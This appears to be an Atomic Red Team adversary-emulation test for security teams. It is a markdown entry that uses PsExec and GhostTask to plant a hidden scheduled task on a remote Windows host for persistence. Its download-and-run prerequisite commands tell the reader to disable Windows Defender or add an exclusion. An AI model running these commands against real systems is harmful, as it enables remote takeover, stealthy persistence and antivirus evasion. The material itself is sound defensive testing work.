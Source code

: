 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" \\#{target} -accepteula -s "cmd.exe"
"PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe" \\#{target} add #{task_name} "cmd.exe" "/c #{task_command}" #{user_name} logon
```

#### Cleanup Commands:

```cmd
"PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" \\#{target} -accepteula -s "cmd.exe"
"PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe" \\#{target} delete #{task_name} > nul
```

#### Dependencies: Run with `powershell`!

##### Description: PsExec tool from Sysinternals must exist in the ExternalPayloads directory

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -Force
```

##### Description: GhostTask.exe tool from netero101 must exist in the ExternalPayloads directory. This tool may be quarantined by windows defender; disable windows defender real-time protection to fix it or add the ExternalPayloads directory as an exclusion, using a command like `Add-MpPreference -ExclusionPath "PathToAtomicsFolder\..\ExternalPayloads\"`

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe") { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/netero1010/GhostTask/releases/download/1.0/GhostTask.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe"
```

<br/>
